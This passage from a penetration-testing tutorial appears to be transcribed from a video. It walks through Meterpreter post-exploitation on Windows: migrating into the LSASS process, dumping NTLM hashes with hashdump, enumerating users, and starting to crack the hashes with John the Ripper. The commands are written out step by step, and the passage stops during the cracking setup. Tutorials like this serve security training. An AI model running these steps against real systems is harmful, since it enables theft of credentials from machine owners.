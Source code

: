 However, before we do this, given the fact that we're going to be targeting the LSASS process cache, it would be a good idea to identify the LSASS process id, and then migrating into it.

```
meterpreter > pgrep lsass
708
```

This will solve two issues. Firstly, it will upgrade our meterpreter session to a 64-bit meterpreter session. And secondly, it'll make our meterpreter session much more stable in the context of accessing the LSASS process cache.

```
meterpreter > migrate 708
```

I can now utilize the hashdump utility.

```
meterpreter > hashdump
```

This will dump a list of user accounts and their hashes. NTLM hashes.

And in most cases, the Guest account is disabled by default.

Confirm what other user accounts on the system.

```
meterpreter > shell
net user
```

Copy these hashes. Open up a new tab here.

```
cd Desktop/
vim hashes.txt
cat hashes.txt
```

In order to crack NTLM hashes, we can utilize the John utility.

```
john
```

In this case, we're primarily focusing on how to crack an NTLM hash.

What we need to provide firstly is the format of the hashes that we want to crack. And that can be specified through the use of the `--format=NAME` option.

```
--format=NAME force hash of type NAME. The supported formats can be seen with --list=formats and --list=subformats

--format=NAME 强制使用名称为 NAME 的哈希类型。可以使用 --list=formats 和 --list=subformats 命令查看支持的格式。
```

List the available formats.

```
john --list=formats
```
